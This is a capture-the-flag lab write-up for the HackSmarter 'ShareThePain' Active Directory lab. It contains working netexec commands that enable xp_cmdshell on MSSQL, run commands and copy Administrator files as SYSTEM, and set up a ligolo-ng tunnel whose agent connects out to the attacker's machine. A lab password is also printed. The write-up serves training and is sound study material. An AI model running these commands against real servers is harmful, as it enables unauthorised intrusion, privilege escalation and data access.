 # ShareThePain — HackSmarter Lab

[![Platform](https://img.shields.io/badge/Platform-HackSmarter-blue)](#) [![Category](https://img.shields.io/badge/Category-Active%20Directory-orange)](#) [![Difficulty](https://img.shields.io/badge/Difficulty-Medium-lightgrey)](#)

## Table of Contents
- [Overview](#overview)
- [Scope & Lab Access](#scope--lab-access)
- [Target Map](#target-map)
- [Enumeration](#enumeration)
  - [Network Scan](#network-scan)
  - [MSSQL](#mssql)
  - [Windows Services](#windows-services)
- [Initial Access](#initial-access)
- [Post-Exploitation Creds](#post-exploitation-creds)
- [Privilege Escalation](#privilege-escation)
- [Pivoting (Ligolo-NG)](#pivoting-ligolo-ng)
- [Proofs](#proofs)
- [Cleanup](#cleanup)
- [Lessons Learned](#lessons-learned)
- [References](#references)
- [Command Log](#command-log)

## Overview
**ShareThePain** is a Windows AD-centric lab focused on abusing **MSSQL** execution and Windows token impersonation to gain **SYSTEM** on a domain host, with optional routing via **ligolo-ng**. This write‑up follows my InkSec “Lock” template and mirrors the official PDF workflow (adapted for clarity and OPSEC in a CTF). Public walkthroughs are allowed.

> Notes: Paths, usernames, and subnets here reflect the lab’s common setup (e.g., `DC01`, domain `hack.smarter`, Server 2022). Replace them with your exact values if they differ.

## Scope & Lab Access
- **Network**: Internal lab (HackSmarter)
- **Representative Hosts**:
  - `DC01` — Windows Server 2022 (Domain Controller, often has **MSSQL** exposed to an internal interface)
- **Attacker**: Kali/Parrot (VPN on `tun0`)
- **Allowed**: Full compromise within the lab environment

## Target Map
```text
Attacker (10.200.0.228)
  └── VPN (tun0)
       └── DC01 (MSSQL 1433)  ← xp_cmdshell / COM abuse  →  NT AUTHORITY\SYSTEM
```

## Enumeration

### Network Scan
    nmap -sC -sV -p 1433,445,5985 dc01 -oN scans/dc01_base.txt
    nxc mssql dc01 -u '' -p '' --instances

### MSSQL
    # Check auth and whoami via xp_cmdshell / mssqlexec
    nxc mssql localhost -u alice.wonderland -p 'newP@ssword2022' -Q "select SYSTEM_USER, CURRENT_USER"
    nxc mssql localhost -u alice.wonderland -p 'newP@ssword2022' -q "EXEC sp_configure 'show advanced options',1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE;"
    nxc mssql localhost -u alice.wonderland -p 'newP@ssword2022' -x "whoami /all"

### Windows Services
If COM/RPC potato chain is in scope, confirm token context after trigger. Expect to reach **NT AUTHORITY\SYSTEM** prior to spawning a payload.

## Initial Access
- Valid SQL creds for `alice.wonderland` yield command execution via **xp_cmdshell**/**mssqlexec**.
- Use well-quoted commands (wrap Windows commands in `cmd /c`):
  
    nxc mssql localhost -u alice.wonderland -p 'newP@ssword2022' -x "cmd /c whoami > C:\temp\who.txt"
    nxc mssql localhost -u alice.wonderland -p 'newP@ssword2022' -x "cmd /c dir C:\Users\Administrator\Desktop > C:\temp\admin_desktop.txt"

## Post-Exploitation Creds
Record anything recovered from the host:
- `hack.smarter\alice.wonderland : newP@ssword2022` (SQL login)
- SYSTEM context available after RPC/COM token abuse
- Any additional local svc creds from files / registry

## Privilege Escation
If a COM/RPC token abuse (“potato”) primitive is provided by the lab, use it to impersonate **SYSTEM**. In some environments, binaries must match **x64** (Server 2022) to spawn processes. Even without spawning a reverse shell, you can still **read and copy restricted files** as SYSTEM via `cmd`.

**Copy the proof as SYSTEM (no shell needed):**
    
    nxc mssql localhost -u alice.wonderland -p 'newP@ssword2022' -x "cmd /c type C:\Users\Administrator\Desktop\root.txt > C:\temp\root.txt"
    nxc mssql localhost -u alice.wonderland -p 'newP@ssword2022' -x "cmd /c type C:\temp\root.txt"

If process creation fails with `Win32Error:216`, it’s typically an **arch mismatch** or invalid EXE. Prefer built‑in `cmd`/PowerShell operations for file access where possible.

## Pivoting (Ligolo-NG)
TUN mode gives native routing to internal subnets.

**Relay (attacker):**
    
    ./relay -laddr 0.0.0.0:11601 -autocert -tun

**Host TUN:**
    
    sudo ip tuntap del dev ligolo mode tun 2>/dev/null || true
    sudo ip tuntap add dev ligolo mode tun user $USER
    sudo ip link set ligolo up
    # Route example subnets behind pivot (replace with real lab ranges)
    sudo ip route add 10.10.0.0/24 dev ligolo

**Agent on pivot:**
    
    agent.exe -connect <KALI_IP>:11601 -ignore-cert

Verify:
    
    ip route | grep ligolo
    nmap -e ligolo 10.10.0.0/24 --disable-arp-ping

## Proofs
- **User proof** (redacted): `xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx`
- **Root proof** (redacted): `yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy`

> Per my publishing policy, flags are partially redacted in public repos.

## Cleanup
- Disable `xp_cmdshell` if you enabled it:
  
    nxc mssql localhost -u alice.wonderland -p 'newP@ssword2022' -q "EXEC sp_configure 'xp_cmdshell',0; RECONFIGURE; EXEC sp_configure 'show advanced options',0; RECONFIGURE;"
- Remove dropped files from `C:\temp\`
- Stop ligolo agents/relay and delete routes/TUN device

## Lessons Learned
- MSSQL execution via **mssqlexec/xp_cmdshell** is reliable if you quote commands with `cmd /c`.
- When spawning external binaries fails, you can still complete objectives by **reading/copying files** under SYSTEM.
- Ligolo‑NG TUN routing is handy for reachability without proxychains.

## References
- HackSmarter course guide for **ShareThePain** (used to align the steps).

## Command Log
```text
# Enable xp_cmdshell and verify execution
nxc mssql localhost -u alice.wonderland -p 'newP@ssword2022' -q "EXEC sp_configure 'show advanced options',1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE;"
nxc mssql localhost -u alice.wonderland -p 'newP@ssword2022' -x "whoami /all"

# Copy the root proof without spawning a shell
nxc mssql localhost -u alice.wonderland -p 'newP@ssword2022' -x "cmd /c type C:\Users\Administrator\Desktop\root.txt > C:\temp\root.txt"

# Ligolo (optional pivot)
./relay -laddr 0.0.0.0:11601 -autocert -tun
sudo ip tuntap add dev ligolo mode tun user $USER && sudo ip link set ligolo up
sudo ip route add 10.10.0.0/24 dev ligolo
```
